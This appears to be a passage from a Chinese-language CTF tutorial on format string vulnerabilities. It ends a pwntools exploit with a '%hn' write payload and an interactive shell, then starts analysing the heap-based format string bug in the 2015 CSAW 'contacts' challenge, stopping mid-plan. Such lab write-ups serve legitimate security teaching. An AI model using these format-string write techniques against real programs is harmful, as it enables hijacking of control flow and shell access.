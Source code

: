 ```python
#0x4008aa-0x4008a6
sh.writeline("%2218d%8$hn")

sh.recv()
sh.writeline("1")
sh.recv()
sh.interactive()
```

## 堆上的格式化字符串漏洞

### 原理

所謂堆上的格式化字符串指的是格式化字符串本身存儲在堆上，這個主要增加了我們獲取對應偏移的難度，而一般來說，該格式化字符串都是很有可能被複制到棧上的。

### 例子

這裏我們以 2015 年 CSAW 中的 [contacts](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/2015-CSAW-contacts) 爲例進行介紹。

#### 確定保護

```shell
➜  2015-CSAW-contacts git:(master) ✗ checksec contacts
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出程序不僅開啓了 NX 保護還開啓了 Canary。

#### 分析程序

簡單看看程序，發現程序正如名字所描述的，是一個聯繫人相關的程序，可以實現創建，修改，刪除，打印聯繫人的信息。而再仔細閱讀，可以發現在打印聯繫人信息的時候存在格式化字符串漏洞。

```C
int __cdecl PrintInfo(int a1, int a2, int a3, char *format)
{
  printf("\tName: %s\n", a1);
  printf("\tLength %u\n", a2);
  printf("\tPhone #: %s\n", a3);
  printf("\tDescription: ");
  return printf(format);
}
```

仔細看看，可以發現這個 format 其實是指向堆中的。

#### 利用思路

我們的基本目的是獲取系統的 shell，從而拿到 flag。其實既然有格式化字符串漏洞，我們應該是可以通過劫持got表或者控制程序返回地址來控制程序流程。但是這裏卻不怎麼可行。原因分別如下
